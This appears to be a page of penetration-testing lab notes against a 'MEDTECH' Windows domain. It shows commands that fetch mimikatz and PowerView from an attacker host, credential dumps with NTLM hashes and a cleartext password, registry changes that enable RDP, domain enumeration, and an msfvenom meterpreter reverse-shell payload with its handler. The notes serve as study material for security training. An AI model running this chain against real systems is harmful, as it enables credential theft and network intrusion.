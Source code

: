 # Lets try mimikatz.exe
PS C:\temp> iwr -uri http://192.168.45.177:8088/Windows/mimikatz.exe -Outfile mimi.exe
PS C:\temp> powershell -ep bypass
PS C:\temp> .\mimi.exe
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords
...
         * Username : Administrator
         * Domain   : WEB02
         * NTLM     : b2c03054c306ac8fc5f9d188710b0168
         * Username : joe
         * Domain   : MEDTECH
         * NTLM     : 08d7a47a6f9f66b97b1bae4178747494
         kerberos :
         * Username : joe
         * Domain   : MEDTECH.COM
         * Password : Flowers1
...
PS C:\Users\Administrator\Desktop> type proof.txt
a21cde38548900a820e8aeb8f25295f0

# Lets enable WEB02 for RDP
PS C:\TEMP> Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
xfreerdp /cert-ignore /u:joe /p:Flowers1 /v:192.168.219.121 /d:medtech.com +clipboard +drive:/home/kali/Desktop,/smb

# Extract Domain information using the PowerView.ps1
iwr -uri http://192.168.45.221:8088/Windows/PowerView.ps1 -Outfile PowerView.ps1
powershell -ep bypass
Import-Module .\PowerView.ps1
Get-NetUser -Domain medtech.com 
Get-NetComputer -Properties samaccountname, samaccounttype, operatingsystem
Get-NetGroup -Domain medtech.com| select name
Get-DomainGroupMember "Domain Admins" -Recurse

# Now we owned the joe:Flowers1 credentials, we can try the crackmapexec to find out what joe can access

# Before that lets establish the connection with WEB02 and dynamic port forward from WEB02 and allow KALI route to MEDTECH internal network

[Metasploit Dynamic Port Forwarding]
=====================================================
# Lets create a MSFpayload first
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.45.195 LPORT=8888 -f exe -o cute.exe
# Metasploit Dynamic Port Forwarding
https://github.com/twelvesec/port-forwarding?tab=readme-ov-file#SSH-Remote-Port-Forwarding
msfconsole
msf6 > use multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
set LHOST tun0
set LPORT 8888